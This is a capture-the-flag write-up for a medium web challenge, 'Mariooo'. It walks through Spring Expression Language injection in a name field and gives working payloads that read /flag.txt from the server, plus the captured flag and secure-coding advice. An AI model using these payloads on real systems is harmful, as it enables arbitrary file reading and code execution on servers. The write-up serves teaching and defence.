 # Mariooo (M4) — Web | 350 pts | Medium

**Category:** Web Exploitation  
**Difficulty:** Medium  
**Points:** 350  
**Writeup by:** Circuitx

---

## Challenge Summary

A simple "enter your name" field on a game portal. The page evaluates expressions submitted in the name field, which allows **server-side expression injection**. The flag is located at `/flag.txt`.

---

## Vulnerability Type

**Java Expression Language (EL) Injection** - specifically Spring Expression Language (SpEL)

The application accepts user input and evaluates it as a Java expression without proper sanitization, allowing arbitrary code execution on the server.

---

## Reconnaissance and Fingerprinting

### Initial Testing

The challenge presents an input field where you can enter your name. Upon testing, the input was reflected back, suggesting potential injection vulnerabilities.

### Step 1: Basic Expression Evaluation Test

**Payload:**
```
${{7*7}}
```

**Result:** `49`

This confirmed that the application was evaluating mathematical expressions, indicating an expression language vulnerability.

### Step 2: Java-Specific Probe

**Payload:**
```
${T(java.lang.Math).sqrt(81)}
```

**Result:** `9`

This confirmed that the application was evaluating **Java Expression Language (SpEL/EL)**, as it successfully invoked a Java standard library class method.

**Key Findings:**
- Expression evaluation is enabled
- Java classes can be referenced using `T()` syntax
- Standard Java library is accessible
- No apparent input sanitization

---

## Exploitation Path

Because the application evaluates Java expressions, we can leverage Java standard library classes to read files from the filesystem.

### Attempt 1: Read File as Byte Array

**Payload:**
```java
${T(java.util.Arrays).toString(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/flag.txt')))}
```

**Result:** Byte array representation like `[80, 67, 67, ...]`

This worked but returned the flag as a byte array, which needs conversion to readable text.

**Explanation:**
- `T(java.nio.file.Paths).get('/flag.txt')` - Gets a Path object for the flag file
- `T(java.nio.file.Files).readAllBytes(...)` - Reads all bytes from the file
- `T(java.util.Arrays).toString(...)` - Converts byte array to string representation

### Attempt 2: Direct String Conversion (SUCCESS)

**Payload:**
```java
${new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/flag.txt')))}
```

**Result:** `PCC{m4ri0_i5_cr4zy_hmmm_nEcSO5wQsf2y}`

This successfully converted the byte array to a UTF-8 string, revealing the flag directly.

### Attempt 3: Base64-Encoded (Alternative Method)

If the output is altered, escaped, or truncated, a Base64-safe variant is useful:

**Payload:**
```java
${T(java.util.Base64).getEncoder().encodeToString(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/flag.txt')))}
```

**Local Decode:**
```bash
echo "<base64_string>" | base64 -d
```

This method ensures the flag survives any character encoding issues during transmission.

---

## Flag

```
PCC{m4ri0_i5_cr4zy_hmmm_nEcSO5wQsf2y}
```

---

## Technical Explanation

### What is SpEL Injection?

Spring Expression Language (SpEL) is a powerful expression language that supports querying and manipulating object graphs at runtime. When user input is evaluated as SpEL without proper validation, attackers can:

1. Execute arbitrary Java code
2. Access the Java ClassLoader
3. Read/write files on the server
4. Execute system commands
5. Exfiltrate sensitive data

### Vulnerability Root Cause

The application likely uses code similar to:
```java
// VULNERABLE CODE
String userInput = request.getParameter("name");
Expression exp = parser.parseExpression(userInput);
String result = (String) exp.getValue();
```

### Secure Implementation

To prevent SpEL injection:

1. **Avoid evaluating user input as expressions**
2. **Use parameterized queries** instead of string concatenation
3. **Implement strict input validation** with whitelists
4. **Sandbox the expression evaluation context** if expressions are necessary
5. **Limit available classes and methods** in the evaluation context

Example secure approach:
```java
// SECURE CODE
String userInput = request.getParameter("name");
// Sanitize and validate input
if (userInput.matches("^[a-zA-Z0-9 ]+$")) {
    // Only alphanumeric characters allowed
    output = "Hello, " + userInput;
} else {
    output = "Invalid input";
}
```

---

## Tools and Scripts

See the following files in this directory:

- **`exploit.py`** - Automated Python exploit script
- **`exploit_manual.py`** - Manual exploitation with step-by-step payloads
- **`payloads.txt`** - Collection of tested payloads

---

## References

- [OWASP - Expression Language Injection](https://owasp.org/www-community/vulnerabilities/Expression_Language_Injection)
- [Spring Expression Language (SpEL) Documentation](https://docs.spring.io/spring-framework/docs/current/reference/html/core.html#expressions)
- [SpEL Injection: A Comprehensive Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---basic-injection)

---

## One-Line Summary

An input field allowed Java EL evaluation; reading `/flag.txt` with `java.nio.file.Files.readAllBytes` and converting to a string produced the flag: **PCC{m4ri0_i5_cr4zy_hmmm_nEcSO5wQsf2y}**

